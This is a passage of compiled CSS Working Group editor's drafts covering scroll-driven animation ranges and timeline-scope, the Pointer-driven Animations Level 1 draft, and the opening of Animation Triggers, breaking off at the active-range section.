> The second animation is attached to the `exit` range, animating the element from `opacity: 1` to `opacity: 0` as it leaves the scrollport.

##### Specifying an Animation’s Timeline Range: the `animation-range` shorthand {#scroll-animations-1:animation-range}

| Field | Value |
| --- | --- |
| Name: | **animation-range** |
| [Value:](#css-values-4:value-defs) | [ `<'animation-range-start'>` `<'animation-range-end'>`? ]# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `animation-range` property is a shorthand that sets `animation-range-start` and `animation-range-end` together in a single declaration, associating the animation with the specified animation attachment range.

If `<'animation-range-end'>` is omitted and `<'animation-range-start'>` includes a `<timeline-range-name>` component, then `animation-range-end` is set to that same <timeline-range-name> and `100%`. Otherwise, any omitted longhand is set to its initial value.

> **Example:** The following sets of declarations show an `animation-range` shorthand declaration followed by its equivalent `animation-range-start` and `animation-range-end` declarations:
>
> ```
> animation-range: entry 10% exit 90%;
> animation-range-start: entry 10%;
> animation-range-end: exit 90%;
>
> animation-range: entry;
> animation-range-start: entry 0%;
> animation-range-end: entry 100%;
>
> animation-range: entry exit;
> animation-range-start: entry 0%;
> animation-range-end: exit 100%;
>
> animation-range: 10%;
> animation-range-start: 10%;
> animation-range-end: normal;
>
> animation-range: 10% 90%;
> animation-range-start: 10%;
> animation-range-end: 90%;
>
> animation-range: entry 10% exit;
> animation-range-start: entry 10%;
> animation-range-end: exit 100%;
>
> animation-range: 10% exit 90%;
> animation-range-start: 10%;
> animation-range-end: exit 90%;
>
> animation-range: entry 10% 90%;
> animation-range-start: entry 10%;
> animation-range-end: 90%;
> ```

> **Example:** Because `<'animation-range-start'>` and `<'animation-range-end'>` accept `<length-percentage>`s, it’s perfectly fine to do calculations using `calc()` for the ranges:
>
> ```css
> #subject {
>   animation: anim linear both;
>   animation-timeline: view();
>   animation-range: entry calc(100% - 100px) exit calc(0% + 100px);
> }
> ```

> **Issue:** What’s the best way to handle defaulting of omitted values here? [[Issue #8438]](https://github.com/w3c/csswg-drafts/issues/8438)

##### Specifying an Animation’s Timeline Range Start: the `animation-range-start` property {#scroll-animations-1:animation-range-start}

| Field | Value |
| --- | --- |
| Name: | **animation-range-start** |
| [Value:](#css-values-4:value-defs) | [ normal \| `<length-percentage>` \| `<timeline-range-name>` <length-percentage>? ]# |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the specified named timeline range if one was specified, else to the entire timeline |
| [Computed value:](#css-cascade-6:computed) | list, each item either the keyword `normal` or a timeline range and progress percentage |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

Specifies the start of the animations’s attachment range, shifting the start time of the animation (i.e. where keyframes mapped to 0% progress are attached when the iteration count is 1) accordingly.

Values have the following meanings:

****normal****

: The start of the animation’s attachment range is the start of its associated timeline; the start of the animation’s active interval is determined as normal.

****`<length-percentage>`****

: The animation attachment range starts at the specified point on the timeline measuring from the start of the timeline.

****`<timeline-range-name>` `<length-percentage>`?****

: The animation attachment range starts at the specified point on the timeline measuring from the start of the specified named timeline range. If the `<length-percentage>` is omitted, it defaults to 0%.

##### Specifying an Animation’s Timeline Range End: the `animation-range-end` property {#scroll-animations-1:animation-range-end}

| Field | Value |
| --- | --- |
| Name: | **animation-range-end** |
| [Value:](#css-values-4:value-defs) | [ normal \| `<length-percentage>` \| `<timeline-range-name>` <length-percentage>? ]# |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the specified named timeline range if one was specified, else to the entire timeline |
| [Computed value:](#css-cascade-6:computed) | list, each item either the keyword `normal` or a timeline range and progress percentage |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

Specifies the end of the animations’s attachment range, potentially shifting the end time of the animation (i.e. where keyframes mapped to 100% progress are attached when the iteration count is 1) and/or truncating the animation’s active interval.

Values have the following meanings:

****normal****

: The end of the animation’s attachment range is the end of its associated timeline; the end of the animation’s active interval is determined as normal.

****`<length-percentage>`****

: The animation attachment range ends at the specified point on the timeline measuring from the start of the timeline.

****`<timeline-range-name>` `<length-percentage>`?****

: The animation attachment range ends at the specified point on the timeline measuring from the start of the specified named timeline range. If the `<length-percentage>` is omitted, it defaults to 100%.

### Appendix B: Timeline Name Scope {#scroll-animations-1:timeline-name-scope}

> **Issue:** This section should move to CSS-ANIMATIONS-2.

This appendix introduces the `timeline-scope` property, which allows declaring a timeline name’s scope on an ancestor of the timeline’s defining element.

#### Declaring a Named Timeline’s Scope: the `timeline-scope` property {#scroll-animations-1:timeline-scope}

| Field | Value |
| --- | --- |
| Name: | **timeline-scope** |
| [Value:](#css-values-4:value-defs) | none \| all \| `<dashed-ident>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none`, the keyword `all`, or a list of CSS identifiers |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

Values have the following meanings:

****none****

: No changes in timeline name scope.

****all****

: Specifies that all timeline names defined by this element or its flat tree descendants—​whose scope is not already limited by a descendant using `timeline-scope`—​to be in scope only for this element’s flat tree descendants; and limits descendants to only match timeline names to elements within this subtree.

****`<dashed-ident>`****

: Specifies that a matching timeline name defined by this element or its flat tree descendants—​whose scope is not already limited by a descendant using `timeline-scope`—​to be in scope only for this element’s flat tree descendants; and limits descendants to only match timeline names to elements within this subtree.

> **Note:** This property cannot affect or invalidate any timeline name lookups within the subtree of a descendant element that declares the same name. See [Declaring a Named Timeline’s Scope: the timeline-scope property](#scroll-animations-1:timeline-scope).

> **Example:** Say you have multiple instances of a component, each defining a timeline and some element using that timeline:
>
> ```html
> <div>
>   <div class="component">
>     <div style="view-timeline: --t /*...*/;"></div>
>     <div style="animation-timeline: --t;"></div>
>   </div>
>   <div class="component">
>     <div style="view-timeline: --t /*...*/;"></div>
>     <div style="animation-timeline: --t;"></div>
>   </div>
> </div>
> ```
>
> Both instances of `animation-timeline:--t` will target the *same* timeline, i.e. the last one seen in flat tree order, globally.
>
> If we instead want each instance of `animation-timeline:--t` to target the "locally defined" `--t`, we can do the following:
>
> ```html
> <style>
>   .component {
>     timeline-scope: --t;
>   }
> </style>
> ```
>
> Now, any lookup of `--t` taking place within a component will only see timelines defined inside that component.

---

## Pointer-driven Animations Module Level 1 {#pointer-animations-1}

- **Shortname:** `pointer-animations-1`
- **Editor's Draft:** [https://drafts.csswg.org/pointer-animations-1/](https://drafts.csswg.org/pointer-animations-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-01-11

### 1. Introduction {#pointer-animations-1:intro}

This specification defines mechanisms for driving the progress of an animation based on the pointer position’s progress over a specified range. These **pointer-driven animations** use a timeline based on the pointer position, and are based on length, rather than time. In this way they operate similarly to, and share similar concepts with scroll-driven animations. This module provides both an imperative API building on the Web Animations API as well as a declarative API building on CSS Animations. [CSS-ANIMATIONS-2] [WEB-ANIMATIONS-1]

#### 1.1. Relationship to other specifications {#pointer-animations-1:other-specs}

Web Animations [WEB-ANIMATIONS-1] defines an abstract conceptual model for animations on the Web platform, with elements of the model including animations and their timelines, and associated programming interfaces. This specification extends the Web Animations model by defining pointer progress timelines and allowing them to drive progress in animations to create pointer-driven animations.

This specification introduces both programming interfaces for interacting with these concepts, as well as CSS properties that apply these concepts to CSS Animations [CSS-ANIMATIONS-1]. To the extent the behavior of these CSS properties is described in terms of the programming interfaces, User agents that do not support scripting may still conform to this specification by implementing the CSS features to behave as if the underlying programming interfaces were in place.

This specification was derived from, and inspired by the concepts and features introduced in the Scroll-Driven Animations module [SCROLL-ANIMATIONS-1] for specifying progress-based timelines and animations.

Like most operations in CSS besides selector matching, features in this specification operate over the flattened element tree.

#### 1.2. Value Definitions {#pointer-animations-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Pointer Progress Timelines {#pointer-animations-1:pointer-timelines}

**Pointer progress timelines** are timelines linked to progress in the pointer position over an element’s principal box along a particular axis.

The **pointer range** is the size of the element’s principal box along the axis of the pointer progress timeline.

The **pointer offset** is the position of the pointer relative to the start of the element’s pointer range, as defined by `offsetX` and `offsetY` in [CSSOM-VIEW-1]. The startmost pointer offset represents 0% progress and the endmost pointer offset represents 100% progress.

Pointer progress timelines can be referenced in `animation-timeline` anonymously using the `pointer()` functional notation or by name (see [Scroll-driven Animations § 4.2 Named Timeline Scoping and Lookup](#scroll-animations-1:timeline-scoping)) after declaring them using the `pointer-timeline` properties. In the Web Animations API, they can be represented anonymously by a `PointerTimeline` object.

#### 2.1. Pointer Progress Timeline Ranges {#pointer-animations-1:pointer-timelines-ranges}

pointer progress timelines define the following named timeline ranges:

****fill****

: Represents the full range of the pointer progress timeline:

  - 0% progress represents the pointer position over the start padding edge of the element’s principal box.
  - 100% progress represents the pointer position over the end padding edge of the element’s principal box.

****fit****

: Represents a range that is the same size as `fill`, but its points of 0% and 100% progress are offset according to the value of `animation-range-center` property, so that the point of 50% progress remains at the center of the range.

****cover****

: Represents the largest possible range of the pointer progress timeline that fully covers the element’s principal box according to the value of `animation-range-center` property as follows:

  - If the distance between the point of 50% progress and the element’s start padding edge is greater than the distance between the point of 50% progress and the element’s end padding edge, then the 0% progress point is at the element’s start padding edge, and the 100% progress point is at the same distance from the 50% progress point on the opposite side.
  - Otherwise, the 100% progress point is at the element’s end padding edge, and the 0% progress point is at the same distance from the 50% progress point on the opposite side.

****contain****

: Represents the largest possible range that is fully contained within the element’s principal box according to the value of `animation-range-center` property as follows:

  - If the distance between the point of 50% progress and the element’s start padding edge is smaller than the distance between the point of 50% progress and the element’s end padding edge, then the 0% progress point is at the element’s start padding edge, and the 100% progress point is at the same distance from the 50% progress point on the opposite side.
  - Otherwise, the 100% progress point is at the element’s end padding edge, and the 0% progress point is at the same distance from the 50% progress point on the opposite side.

> **Issue:** Insert diagrams.

In all cases, the writing mode used to resolve the start and end sides is the writing mode of the relevant principal box. [Transforms](#css-transforms-2) are ignored, but relative and absolute positioning are accounted for.

[CSS-POSITION-3] [CSS-TRANSFORMS-1]

#### 2.2. Calculating Progress for a Pointer Progress Timeline {#pointer-animations-1:pointer-timeline-progress}

Progress (the current time) for a pointer progress timeline is calculated as: *pointer offset* ÷ *pointer range*

If the 0% position and 100% position coincide (i.e. the denominator in the current time formula is zero), the timeline is inactive.

#### 2.3. Anonymous Pointer Progress Timelines {#pointer-animations-1:pointer-timelines-anonymous}

##### 2.3.1. The `pointer()` notation {#pointer-animations-1:pointer-notation}

The **pointer()** functional notation can be used as a `<single-animation-timeline>` value in `animation-timeline` and specifies a pointer progress timeline. Its syntax is

```css
<pointer()> = pointer( [ <source> || <axis> ]? )
<axis> = block | inline | x | y
<source> = root | nearest | self
```

By default, `pointer()` references the inline axis of the element’s own pointer range. Its arguments modify this lookup as follows:

****block****

: Specifies to use the measure of progress along the block axis of the pointer range.

****inline****

: Specifies to use the measure of progress along the inline axis of the pointer range. (Default.)

****x****

: Specifies to use the measure of progress along the horizontal axis of the pointer range.

****y****

: Specifies to use the measure of progress along the vertical axis of the pointer range.

****self****

: Specifies to use the element’s own principal box as the pointer range. (Default.)

****nearest****

: Specifies to use the nearest element’s parent box as the pointer range.

****root****

: Specifies to use the root element’s principal box as the pointer range.

Each use of `pointer()` corresponds to its own instance of `PointerTimeline` in the Web Animations API, even if multiple elements use `pointer()` to refer to the same pointer range with the same arguments.

##### 2.3.2. The `PointerTimeline` Interface {#pointer-animations-1:pointertimeline-interface}

```webidl
enum PointerAxis {
  "block",
  "inline",
  "x",
  "y"
};

dictionary PointerTimelineOptions {
  Element? source;
  PointerAxis axis = "block";
};

[Exposed=Window]
interface PointerTimeline : AnimationTimeline {
  constructor(optional PointerTimelineOptions options = {});
  readonly attribute Element? source;
  readonly attribute PointerAxis axis;
};
```

A `PointerTimeline` is an `AnimationTimeline` that represents a pointer progress timeline. It can be passed to the `Animation` constructor or the `animate()` method to link the animation to a pointer progress timeline.

****`source`**,  of type Element, readonly, nullable**

: The element whose pointer offset drives the progress of the timeline.

****`axis`**,  of type PointerAxis, readonly**

: The axis that drives the progress of the timeline. See value definitions for `<axis>`, above.

Inherited attributes:

**`currentTime` (inherited from `AnimationTimeline`)**

: Represents the pointer progress of the pointer range as a percentage CSSUnitValue, with 0% representing its startmost pointer offset. Null when the timeline is inactive.

****`PointerTimeline(options)`****

: Creates a new `PointerTimeline` object using the following procedure:

  1. Let *timeline* be the new `PointerTimeline` object.
  2. Set the `source` of *timeline* to:

     **If the `source` member of *options* is present,**

     : The `source` member of *options*.

     **Otherwise,**

     : The root element.
  3. Set the `axis` property of *timeline* to the corresponding value from *options*.

If the `source` of a `PointerTimeline` is an element whose principal box does not exist then the `PointerTimeline` is inactive.

The values of `source` and `currentTime` are both computed when either is requested or updated.

#### 2.4. Named Pointer Progress Timelines {#pointer-animations-1:pointer-timelines-named}

Pointer progress timelines can also be defined declaratively and then referenced by name by elements within the name’s scope (see [Scroll-driven Animations § 4.2 Named Timeline Scoping and Lookup](#scroll-animations-1:timeline-scoping)).

Such **named pointer progress timelines** are declared in the coordinated value list constructed from the `pointer-timeline-*` properties, which form a coordinating list property group with `pointer-timeline-name` as the coordinating list base property. See [CSS Values 4 § A Coordinating List-Valued Properties](#css-values-4:linked-properties).

##### 2.4.1. Naming a Pointer Progress Timeline: the `pointer-timeline-name` property {#pointer-animations-1:pointer-timeline-name}

| Field | Value |
| --- | --- |
| Name: | **pointer-timeline-name** |
| [Value:](#css-values-4:value-defs) | [ none \| `<dashed-ident>` ]# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` or a list of CSS identifiers |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

Specifies names for the named pointer progress timelines associated with this element.

##### 2.4.2. Axis of a Pointer Progress Timeline: the `pointer-timeline-axis` property {#pointer-animations-1:pointer-timeline-axis}

| Field | Value |
| --- | --- |
| Name: | **pointer-timeline-axis** |
| [Value:](#css-values-4:value-defs) | [ block \| inline \| x \| y ]# |
| [Initial:](#css-cascade-6:initial-values) | block |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | a list of the keywords specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

Specifies the axis of any named pointer progress timelines derived from this element’s principal box. If this element’s principal box does not exist, then the corresponding named pointer progress timeline is inactive.

Values are as defined for `pointer()`.

##### 2.4.3. Pointer Timeline Shorthand: the `pointer-timeline` shorthand {#pointer-animations-1:pointer-timeline-shorthand}

| Field | Value |
| --- | --- |
| Name: | **pointer-timeline** |
| [Value:](#css-values-4:value-defs) | [ `<'pointer-timeline-name'>` `<'pointer-timeline-axis'>`? ]# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This property is a shorthand for setting `pointer-timeline-name` and `pointer-timeline-axis` in a single declaration.

### Appendix A: Animation Range Centering {#pointer-animations-1:animation-range-centering}

> **Issue:** This section should move to CSS-ANIMATIONS-2 and WEB-ANIMATIONS-2.

The section [Scroll-driven Animations §  Attaching Animations to Timeline Ranges](#scroll-animations-1:named-range-animation-declaration) introduces the concept of attaching a set of animation keyframes to an animation attachment range, which creates a single linear range of progress for the animation.

Pointer-driven animations adds a new ability, to set the focal point - the point of 50% progress - of the animation to a specific point, rather than the default center of the animation attachment range, which can be done using the `animation-range-center` property.

The **animation range center subject** is the element whose principal box is the range relative to which the center of the active range is calculated, and is represented by the **`<timeline-range-center-subject>`** value type, which indicates a CSS identifier representing one of the following:

****source****

: The element whose pointer offset drives the progress of the timeline.

****target****

: The element to which the animation is applied.

The point of 50% progress can be smaller than the 0% progress point or larger than the 100% progress point. In such cases, the animation attachment range is cut off at the 50% progress point.

#### Specifying an Animation’s Timeline Range Center: the `animation-range-center` property {#pointer-animations-1:animation-range-center}

| Field | Value |
| --- | --- |
| Name: | **animation-range-center** |
| [Value:](#css-values-4:value-defs) | [ normal \| [ `<length-percentage>` \| `<timeline-range-center-subject>` <length-percentage>? ] ]# |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the corresponding dimension of the specified timeline range center subject, else relative to the start of the animation attachment range |
| [Computed value:](#css-cascade-6:computed) | list, each item either the keyword `normal` or a timeline range center subject and a length-percentage value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

Specifies the center point of the animations’s attachment range, i.e. where the 50% progress point of the animations’s range is.

Values have the following meanings:

****normal****

: The 50% progress point of the animation’s active interval is at the center of the animation attachment range.

****`<length-percentage>`****

: The 50% progress point of the animation’s active interval is at the specified point on the timeline measuring from the start of the animation attachment range. Percentages are relative to the size of the animation attachment range.

****`<timeline-range-name>` `<length-percentage>`?****

: The 50% progress point of the animation’s active interval is at the specified point relative to the start padding edge of the specified animation range center subject’s principal box. If the `<length-percentage>` is omitted, it defaults to 50%.

---

## Animation Triggers {#animation-triggers-1}

- **Shortname:** `animation-triggers-1`
- **Editor's Draft:** [https://drafts.csswg.org/animation-triggers-1/](https://drafts.csswg.org/animation-triggers-1/)
- **Published TR:** [https://www.w3.org/TR/animation-triggers-1/](https://www.w3.org/TR/animation-triggers-1/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-10-16

### 1. Introduction {#animation-triggers-1:intro}

This specification defines mechanisms for affecting an animation’s playback based on various user interactions invoking a specified trigger. By specifying a trigger for an animation, that animation becomes a **triggered animation**, making its playback start delayed until that trigger occurs. These triggers can be attached to certain `Event`s defined in [DOM], or be timeline based, such as view progress timelines. [SCROLL-ANIMATIONS-1]

This module provides both an imperative API building on the Web Animations API as well as a declarative API building on CSS Animations. [CSS-ANIMATIONS-2] [WEB-ANIMATIONS-1]

#### 1.1. Relationship to other specifications {#animation-triggers-1:other-specs}

Web Animations [WEB-ANIMATIONS-1] defines an abstract conceptual model for animations on the Web platform, with elements of the model including animations and timelines, and associated programming interfaces. This specification extends the Web Animations model by defining triggered animation and allowing to perform playback rate functions on them using triggers.

This specification introduces both programming interfaces for interacting with these concepts, as well as CSS properties that apply these concepts to CSS Animations [CSS-ANIMATIONS-2]. To the extent the behavior of these CSS properties is described in terms of the programming interfaces, User Agents that do not support scripting may still conform to this specification by implementing the CSS features to behave as if the underlying programming interfaces were in place.

This specification uses the timeline and ranges concept introduced in the Scroll-Driven Animations module [SCROLL-ANIMATIONS-1] for specifying progress-based timelines and animations.

Like most operations in CSS besides selector matching, features in this specification operate over the flattened element tree.

#### 1.2. Value Definitions {#animation-triggers-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Triggers {#animation-triggers-1:triggers}

**Triggers** allow connecting a user-interaction on one element, to applying a specified action on another (or same) element.

Currently, two types of triggers are defined:

- timeline triggers, managed by the `timeline-trigger` properties, which allow actions to be triggered by entering or leaving certain timeline ranges. (Usually, view progress timelines, so, for example, an animation can be started when an element comes on-screen.)
- event triggers, managed by the `event-trigger` properties, which allow actions to be triggered by certain user-interaction events, such as clicking an element or pressing certain keys.

A trigger is *defined* on some specific triggering element. All triggers have a **trigger name**, and the specific type of trigger dictates how and when it’s activated.

Once a trigger is defined, a **trigger instance**, of that specific type, is created in the scope managed by the `trigger-scope` property. For each specified triggering element, a **trigger attachment** is created on the instance with a matching name and `trigger-scope`.

The specific "type" of the trigger attachment dictates the "grouping" of associated instances. Meaning, event trigger attachments, with same name and scope, will group into a single instance, and correspondingly, timeline triggers, will be grouped separately. However, a defined trigger name inside the same scope, of a different type, will override a previously defined trigger name.

A trigger is *used* on potentially any element, creating an association with a trigger instance of the same name on that element. (For example, `animation-trigger` associates a trigger instance with a specific animation on the element.) The trigger-using element specifies what actions to take when its associated trigger activates or deactivates.

> **Note:** This design for triggers and trigger instances, and the way they’re associated with triggered animations and `<animation-action>`s, is intentionally somewhat generic, intended to support using triggers for *other* purposes in the future. For now, though, triggered animations are the only user of this feature.

#### 2.1. Trigger Actions {#animation-triggers-1:trigger-actions}

A trigger can have one or two actions associated with it when used as a trigger on an element (such as by `animation-trigger`). If two are specified, the first is the trigger’s **entry action**, which is the action the trigger applies when it is activated. The second is the trigger’s **exit action**, which is the action the trigger applies when it is deactivated.

#### 2.2. Trigger Internal State {#animation-triggers-1:trigger-internal-state}

A trigger instance *trigger* has an internal boolean **did trigger** flag, which is initially false, and an internal **state** with these possible values:

****pending****

: The initial state of *trigger* while its did trigger flag is set to false.

****active****

: When switched to this value the *trigger* applies its specified entry action.

****inactive****

: When switched to this value the *trigger* applies its specified exit action.

#### 2.3. Trigger Name Scoping: the `trigger-scope` property {#animation-triggers-1:trigger-scope}

Trigger names are global by default, usable by other elements regardless of their position. (Though they are tree-scoped names, so have interactions with shadow roots). If multiple elements declare triggers with the same trigger name they are combined together as separate attachments for the same trigger instance with the same trigger name and type.

The `trigger-scope` property can limit the scope of a name to a subtree of the document, so elements outside won’t see the chosen trigger name, and elements inside will only see the version of the trigger name defined inside the scope.

| Field | Value |
| --- | --- |
| Name: | **trigger-scope** |
| [Value:](#css-values-4:value-defs) | none \| all \| `<dashed-ident>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

This property scopes trigger names to the subtree of the matching element. Its values are:

****none****

: No changes in trigger name scope.

****all****

: Specifies that all trigger names defined by this element or its descendants—​whose scope is not already limited by a descendant using `trigger-scope`—​to be in scope only for this element’s flat tree descendants; and limits descendants to only match trigger names to triggers within this subtree.

  This value only affects trigger names in the same tree scope, as if it were a strictly matched tree-scoped name. (That is, `trigger-scope: all` acts identically to `trigger-scope: --foo, --bar, ...`, listing all relevant trigger names.)

****`<dashed-ident>`****

: Specifies that a matching trigger name defined by this element or its descendants—​whose scope is not already limited by a descendant using `trigger-scope`—​to be in scope only for this element’s flat tree descendants; and limits descendants to only match these trigger names to triggers within this subtree.

  The `<dashed-ident>` represents a strictly matched tree-scoped name, i.e. it can only match against trigger names in the same shadow tree.[CSS-SCOPING-1]

### 3. Timeline Triggers {#animation-triggers-1:timeline-triggers}

A **timeline trigger** is a trigger which is activated when some timeline enters the trigger’s activation range, and deactivated when it leaves the trigger’s active range. It is defined on an element with the `timeline-trigger` shorthand property, or its longhands. When defined on an element it forms an attachment to a trigger instance with the specified name and scope.

An element can define multiple timeline triggers, using the same timeline (potentially with different ranges) or different ones. The set of `timeline-trigger` longhands form a coordinating list property group, with `timeline-trigger-name` as the coordinating list base property, and each item in the coordinated value list defining the properties of a single timeline trigger.

#### 3.1. Timeline Trigger Ranges {#animation-triggers-1:timeline-trigger-ranges}

A timeline trigger attachment can have one or more associated timelines. When *all* of the attachment’s associated **activation range** are entered it activates its associated trigger instance, setting its state to active. When *one* of the attachment’s associated **active range** is exited it deactivates its associated trigger instance, setting its state to inactive. Thus, essentially, forming a logical *OR* of the states of all the timelines associated with a trigger. For example, when an element enters a cross-section of a vertical *AND* a horizontal scrolling area.

> **Note:** By default, the active range is the same as the activation range; even when manually specified, the active range is always a *superset* of the activation range. The two ranges allow, for example, an `animation-trigger` to start an animation when an element is scrolled close to the center of the screen (using a view progress timeline with a relatively small window as the activation range), but not to stop it until the element is fully off-screen (using `cover` as the active range).

#### 3.2. Naming the Trigger: the `timeline-trigger-name` property {#animation-triggers-1:timeline-trigger-name}

| Field | Value |
| --- | --- |
| Name: | **timeline-trigger-name** |
| [Value:](#css-values-4:value-defs) | none \| `<dashed-ident>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

If `none` is specified, the element does not define any timeline triggers.

If the same `<dashed-ident>` appears multiple times in the list, only the last one defines a timeline trigger; the preceding ones have no effect.

#### 3.3. Linking a Timeline: the `timeline-trigger-source` property {#animation-triggers-1:timeline-trigger-source}

| Field | Value |
| --- | --- |
| Name: | **timeline-trigger-source** |
| [Value:](#css-values-4:value-defs) | [ none \| auto \| [ `<dashed-ident>` \| `<scroll()>` \| `<view()>` ]+ ]# |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

The `timeline-trigger-source` property specifies the timeline trigger’s associated timeline. Values have the same meaning as those of `animation-timeline`.

> **Note:** With `none`, the trigger is not associated with a timeline. A timeline trigger with no timeline is not able to perform any `<animation-action>` as it is not able to monitor or change state.

#### 3.4. The Activation Range: the `timeline-trigger-activation-range` property {#animation-triggers-1:timeline-trigger-activation-range-prop}

| Field | Value |
| --- | --- |
| Name: | **timeline-trigger-activation-range** |
| [Value:](#css-values-4:value-defs) | [ `<'timeline-trigger-activation-range-start'>` `<'timeline-trigger-activation-range-end'>`? ]# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `timeline-trigger-activation-range` property is a shorthand property that sets `timeline-trigger-activation-range-start` and `timeline-trigger-activation-range-end` together in a single declaration. It has the same syntax as the `animation-range` property.

The behavior of `timeline-trigger-activation-range` is defined in [§ 3.1 Timeline Trigger Ranges](#animation-triggers-1:timeline-trigger-ranges).

| Field | Value |
| --- | --- |
| Name: | **timeline-trigger-activation-range-start**, **timeline-trigger-activation-range-end** |
| [Value:](#css-values-4:value-defs) | [ normal \| `<length-percentage>` \| `<timeline-range-name>` <length-percentage>? ]# |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the specified named timeline range if one was specified, else to the entire timeline |
| [Computed value:](#css-cascade-6:computed) | list, each item either the keyword `normal` or a timeline range and progress percentage |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

The `timeline-trigger-activation-range-start` and `timeline-trigger-activation-range-end` properties specify the timeline trigger’s associated activation range. Values have the same meaning as `animation-range-start` and `animation-range-end`.

#### 3.5. The Active Range: the `timeline-trigger-active-range` property {#animation-triggers-1:timeline-trigger-active-range-prop}

